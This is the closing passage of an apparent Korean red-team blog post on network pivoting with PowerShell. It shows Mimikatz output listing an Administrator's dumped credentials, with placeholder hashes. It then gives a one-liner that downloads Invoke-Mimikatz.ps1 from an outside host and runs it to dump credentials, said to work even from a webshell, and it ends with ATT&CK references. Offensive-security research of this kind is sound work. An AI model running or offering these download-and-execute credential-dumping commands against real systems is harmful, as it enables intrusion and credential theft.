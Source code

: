 ```powershell
Domain            : ECYOOBI-ECYOOBI
Logon Server      : ECYOOBI-ECYOOBI
Logon Time        : 2/20/2024 2:33:03 AM
SID               : S-1-5-21-2601599994-3782906710-785418798-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : ECYOOBI-ECYOOBI
         * NTLM     : 121212121212121212121212
         * SHA1     : 121212121212121212121212121212121212
         * DPAPI    : 12121212121212121212121212121212
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : ECYOOBI-ECYOOBI
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : ECYOOBI-ECYOOBI
         * Password : (null)
        ssp :
        credman :
#>
```

위 처럼 온전한 powershell이 아닌, 웹쉘과 같은 환경이더라도 아래와 같이 one-liner을 통한 공략이 가능합니다.

```powershell
PS> powershell -C "ls; whoami;"
PS> powershell -C "IEX(New-Object Net.Webclient).DownloadString('http://10.8.0.55:8000/Invoke-Mimikatz.ps1'); Get-Help Invode-Mimikatz; Invoke-Mimikatz -DumpCreds;"
```

후속 연구로는 위 Reverse SOCK4/SOCK5를 통한 Network Pivoting 과정을 powershell 코드로 제작하여 fileless 형태의 공격 도구를 제작할 예정입니다. 감사합니다.

Special Thanks to [kimmongyong](https://blog.kimmongyong.kr/) for share his own server resources.

Refer

[https://attack.mitre.org/](https://attack.mitre.org/)

[https://attack.mitre.org/techniques/T1090/](https://attack.mitre.org/techniques/T1090/)

[https://attack.mitre.org/techniques/T1021/](https://attack.mitre.org/techniques/T1021/)

[https://attack.mitre.org/groups/G0087/](https://attack.mitre.org/groups/G0087/)

[https://core-research-team.github.io/2020-04-01/Multiple-tunneling](https://core-research-team.github.io/2020-04-01/Multiple-tunneling)

[https://hbase.tistory.com/328](https://hbase.tistory.com/328)

[https://blog.naver.com/sujunghan726/220325307918](https://blog.naver.com/sujunghan726/220325307918)

[https://www.레드팀.com/lateral-movement/dynamic-port-fowarding](https://www.xn--hy1b43d247a.com/lateral-movement/dynamic-port-fowarding)
